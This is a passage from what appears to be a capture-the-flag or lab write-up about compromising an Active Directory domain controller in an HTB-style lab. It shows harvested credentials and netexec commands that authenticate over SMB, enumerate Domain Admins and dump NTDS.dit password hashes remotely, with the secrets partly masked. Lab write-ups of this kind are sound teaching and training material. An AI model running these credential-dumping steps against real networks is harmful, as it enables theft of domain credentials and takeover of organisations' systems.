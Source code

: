 ```
         * Domain   : NEXURA
         * Password : (null)
        kerberos :
         * Username : stom
         * Domain   : NEXURA.HTB
         * Password : calve****************
        ssp :
        credman :
```

```yaml
credentials:
    username: nexura.htb\stom
    password: 'calve****************'
    host: 172.16.119.11 (DC01)
    port: 445 (SMB)
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo proxychains -q netexec smb 172.16.119.11 -u stom -p 'calve****************'

[SNIP]

SMB         172.16.119.11   445    DC01             [+] nexura.htb\stom:calve**************** (Pwn3d!)
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo proxychains -q netexec smb 172.16.119.11 -u stom -p 'calve****************' --groups 'Domain Admins'

[SNIP]

SMB         172.16.119.11   445    DC01             [+] Enumerated members of domain group
SMB         172.16.119.11   445    DC01             nexura.htb\stom
SMB         172.16.119.11   445    DC01             nexura.htb\Administrator
```

### Extract Credentials (from NTDS.dit AD Database) - Remotely

```
┌──(nabla㉿kali)-[~]
└─$ sudo proxychains -q netexec smb 172.16.119.11 -u stom -p 'calve****************' -M ntdsutil

[SNIP]

NTDSUTIL    172.16.119.11   445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    172.16.119.11   445    DC01             Administrator:500:aad3b***************************:36e09***************************::: 📌

[SNIP]
```
